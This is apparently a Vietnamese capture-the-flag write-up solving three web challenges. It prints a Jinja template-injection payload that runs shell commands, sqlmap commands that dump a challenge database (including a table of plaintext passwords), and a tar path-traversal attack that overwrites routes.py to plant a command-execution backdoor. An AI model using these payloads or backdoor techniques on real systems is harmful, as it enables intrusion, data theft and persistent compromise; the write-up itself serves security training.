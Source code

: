 # universe (Bài league of legend theme)
- Bài này bị server side template injection 
- Chúng ta có thể test {{1+1}} -> Print ra 2
- Payload: 
    {{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}

Flag: PISCTF{s0_3zsy_SSTI_F0R_K1d}
# sql-route
- Bài này chúng ta có thể dùng sqlmap vào Post endpoint để tìm lỗ hổng

Check sơ bộ:
   `sqlmap --dbms=mysql -u "http://54.169.55.172:1001/" --data "username=*" --dbs --level=5 --risk=3`

Sau khi biết được tên của db:
`sqlmap --dbms=mysql -u "http://54.169.55.172:1001/" --data "username=admin" -D "ctf" --tables`

Dump data:
`sqlmap --dbms=mysql -u "http://54.169.55.172:1001/" --data "username=admin" -D "ctf" -T "flag" --dump`

Flag: PISCTF{qs89QdAs9A}
# firmware
- Thoạt đầu nhìn vô bài này thì tricky hơn các bài trên, nhưng chúng ta có thể đoán được là mình cần tạo payload bằng file tar.gz để inject
- Phân tích code:
```
+----+------------+-------------------+----------+
| id | pass       | email             | username |
+----+------------+-------------------+----------+
| 1  | superpass  | jean@gmail.net    | jean     |
| 2  | mypass     | michael@gmail.net | michael  |
| 3  | qs89QdAs9A | admin@gmail.net   | admin    |
+----+------------+-------------------+----------+
```
```python
import tarfile, tempfile, os
from application import main

generate = lambda x: os.urandom(x).hex()

def extract_from_archive(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)
    print(f'TMP: {tmp}' , flush=True)
    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp) <-- Vulnerbility ở đây

        extractdir = f'{main.app.config["UPLOAD_FOLDER"]}/{generate(15)}'
        os.makedirs(extractdir, exist_ok=True)

        extracted_filenames = []
        print(f'Tar: {tar}', flush=True)

        for tarinfo in tar:
            name = tarinfo.name
            print(f'Name: {name}', flush=True)
            if tarinfo.isreg():
                filename = f'{extractdir}/{name}'
                os.rename(os.path.join(tmp, name), filename)
                extracted_filenames.append(filename)
                continue
            
            os.makedirs(f'{extractdir}/{name}', exist_ok=True)

        tar.close()
        return extracted_filenames

    return False
```

- Và nghiên cứu thêm, thì tarfile có lỗ hổng bảo mật khi không check path traversal
nên chúng ta có thể có file tar với folder như "../../../abc/abc" thì lúc gọi extractall, nó sẽ extract vô folder mà ta muốn
- Vậy thì ý tưởng là chúng ta sẽ ghi đè 1 file trong application, ở đây mình ghi đè file routes.py, để mở backdoor cho chúng ta lấy flag
```python

    from flask import Blueprint, request, render_template, abort, render_template_string
    from application.util import extract_from_archive
    
    web = Blueprint('web', __name__)
    api = Blueprint('api', __name__)
    
    @web.route('/')
    def index():
        return render_template('index.html')
    
    @api.route('/unslippy', methods=['POST'])
    def cache():
        if 'file' not in request.files:
            return abort(400)
        
        extraction = extract_from_archive(request.files['file'])
        if extraction:
            return {"list": extraction}, 200
    
        return '', 204
    
    @web.route('/exec')
    def run_cmd():
        try:
            return render_template_string(request.args.get('cmd'))
        except:
            return "Exit"
```
Sau đó làm sao để forge file tar, thì sau khi Google 1 hồi mình tìm có 2 cách:
- 1 là dùng absolute name trong tar trên kali
- 2 dùng script: https://github.com/ptoomey3/evilarc

Câu lệnh như sau:
- ``python evilarc.py routes.py -o unix -f flag.tar.gz -p ../../../../../../../../app/application/blueprints/ -d 0 ``

Sau khi có dc file tar, chúng ta upload lên và có được đường link /exec để backdoor,
Cách thức lấy flag tương tự bài 1
Flag: PISCTF{p1s_f1rmvv@r3_7l@g}
